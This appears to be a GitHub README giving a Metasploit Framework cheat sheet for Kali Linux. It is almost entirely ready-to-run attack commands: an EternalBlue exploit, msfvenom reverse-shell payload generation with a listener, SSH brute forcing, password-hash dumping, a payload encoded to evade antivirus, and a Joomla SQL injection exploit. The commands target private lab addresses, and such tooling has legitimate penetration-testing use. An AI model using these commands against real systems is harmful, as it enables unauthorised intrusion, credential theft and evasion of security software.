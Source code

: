 # Metasploit-Framework-
Here are some examples of common tasks you can perform with **Metasploit Framework (`msfconsole`)** in Kali Linux:

---

### **1. Scanning for Vulnerabilities**
Use the `auxiliary/scanner` modules to scan for vulnerabilities.

#### Example: Scan for Open Ports
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set THREADS 10
run
```

---

### **2. Exploiting a Vulnerability**
Use an exploit module to target a specific vulnerability.

#### Example: Exploit MS17-010 (EternalBlue)
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
set LPORT 4444
run
```

---

### **3. Generating a Payload**
Create a reverse shell payload to gain access to a target system.

#### Example: Generate a Windows Meterpreter Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe > shell.exe
```

---

### **4. Creating a Listener**
Set up a listener to catch a reverse shell connection.

#### Example: Start a Multi/Handler
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444
run
```

---

### **5. Exploit Database Integration**
Search for specific vulnerabilities using the Metasploit database.

#### Example: Search for Apache Vulnerabilities
```bash
search apache
```

---

### **6. Bruteforce Attacks**
Attempt to bruteforce login credentials.

#### Example: SSH Login Bruteforce
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.0/24
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```

---

### **7. Post-Exploitation**
Run post-exploitation modules after gaining access.

#### Example: Dump Password Hashes
```bash
use post/windows/gather/hashdump
set SESSION 1
run
```

---

### **8. Bypassing Antivirus**
Generate an encoded payload to bypass simple antivirus detection.

#### Example: Generate an Encoded Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > bypass_av.exe
```

---

### **9. Web Exploits**
Use web-specific modules to target web servers or applications.

#### Example: Exploit Joomla SQL Injection
```bash
use exploit/multi/http/joomla_sql_injection
set RHOST 192.168.1.200
set TARGETURI /joomla
run
```

---

### **10. Database Interaction**
Metasploit supports database integration to track hosts and vulnerabilities.

#### Example: Adding a Target Host
```bash
db_connect msf:password@127.0.0.1/msf
db_nmap -sS 192.168.1.0/24
hosts
```

---

These examples showcase only a fraction of Metasploit's capabilities. You can always explore more modules using:
```bash
search <keyword>
```
For instance:
```bash
search smb
```

